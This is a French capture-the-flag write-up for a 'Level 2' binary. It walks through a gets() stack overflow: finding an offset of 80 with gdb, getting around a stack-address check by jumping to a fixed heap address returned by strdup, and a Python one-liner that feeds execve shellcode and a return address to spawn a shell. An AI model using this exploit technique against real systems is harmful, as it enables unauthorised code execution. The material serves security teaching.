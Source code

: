 # Level 2

## Explication
Après une certaine longueur d'entrée, il segfault.
```
$ ./level2
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaJaaaaaaaa
Segmentation fault (core dumped)
```
Lorsque nous inspectons avec gdb ou ghidra, nous trouvons la fonction principale `main` et `p` qui est appelé. La fonction `p` inclut un appel à `gets()` qui est vulnérable au buffer overflow.
![Ghidra level02, fonction main et p](./resources/ghidra-level2.png)

On peut trouver l'offset via un tool comme [EIP offset tool](https://projects.jason-rush.com/tools/buffer-overflow-eip-offset-string-generator/),
```
$ gdb -q level2
...
(gdb) run
Starting program: /home/user/level2/level2
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
```
En donnant l'adresse de où provient le segfault au site, nous obtenons un offset de 80, Cela signifie que nous pouvons écrire notre shellcode dans la `stdin`, suivi de charactères inutiles jusqu'à ce que le buffer déborde et que nous atteignions 80 caractères, où l'adresse de retour peut être écrasée.

Cependant, ce buffer est stocké sur la stack, malheureusement la fonction `p` vérifie que l'adresse de retour n'est pas dans la stack. Ce qui nous empêche d'écraser l'adresse de retour avec une adresse dans la stack.

Cependant, nous pourrions utiliser la heap, et comme vu sur `ghidra`, le buffer est ensuite copié avec `strdup`. Nous allons donc utiliser `ltrace` pour récupérer l'adresse de `strdup`.
```
$ ltrace ./level2
__libc_start_main(0x804853f, 1, 0xbffff804, 0x8048550, 0x80485c0 <unfinished ...>
fflush(0xb7fd1a20)                                                                       = 0
gets(0xbffff70c, 0, 0, 0xb7e5ec73, 0x80482b5hw
)                                            = 0xbffff70c
puts("hw"hw
)                                                                               = 3
strdup("hw")                                                                             = 0x0804a008
+++ exited (status 8) +++
```
Et sur plusieurs utilisation de `ltrace`, `strdup` nous retourne toujours `0x0804a008`, cela indique qu'il n'y a pas d'ASLR (Address Space Layout Randomization).

Dans ce writeup, on va sauter toute la partie création d'un shellcode mais ce site sur la [création d'un shellcode](https://axcheron.github.io/linux-shellcode-101-from-hell-to-shell/) est très bien.

## Le script
Nous allons donc prendre le shellcode et le mettre dans le buffer en remplissant jusqu'̀a 80 charactères de `a` puis l'adresse de la heap en version little endian

`\x08\xa0\x04\x08` = address return strdup

```
$ python -c 'shell = "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"; print(shell + "a" * (80 - len(shell)) + "\x08\xa0\x04\x08")' > /tmp/oob
$ cat /tmp/oob - | ./level2
```
